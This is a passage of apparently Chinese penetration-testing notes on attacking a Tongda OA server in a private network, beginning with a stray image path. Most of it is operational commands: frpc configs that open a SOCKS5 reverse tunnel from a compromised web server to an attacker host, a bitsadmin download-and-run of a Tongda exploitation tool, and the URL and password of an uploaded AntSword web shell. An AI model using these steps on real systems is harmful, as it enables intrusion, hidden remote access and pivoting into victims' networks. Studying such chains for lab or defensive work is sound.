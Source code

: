 ### 2.上传linux版frpc到web服务器

```bash
[common]
server_addr = 192.168.28.101
server_post = 7000

[socks5]
plugin = socks5
remote_post = 1080
```



```bash
chmod +x frpc;frpc -c frpc.ini > frpc.txt
```

### 3.proxifier连接socks5代理

## 3.TDOA

http://192.168.26.100

### TongdaTools

https://github.com/xiaokp7/TongdaOATool/releases/download/v1.3/TongdaOATool_V1.3.jar

https://github.com/xiaokp7/TongdaOATool/releases/download/v1.6/TongdaTools.jar

```bash
bitsadmin /rawreturn /transfer down "https://github.com/xiaokp7/TongdaOATool/releases/download/v1.3/TongdaOATool_V1.3.jar" D:\tools\TongdaOATool_V1.3.jar
cd D:\tools
java -jar TongdaOATool_V1.3.jar
```

连接socks5代理

> TongdaOA lspirit Upload

### 蚁剑连接

```bash
蚁剑:http://192.168.26.100/im/2411/1002604418.shell.php
密码:x
```

### 上传frpc

```bash
[common]
server_addr = 192.168.28.101
server_post = 7000

[socks5_1]
plugin = socks5
remote_post = 10801
```
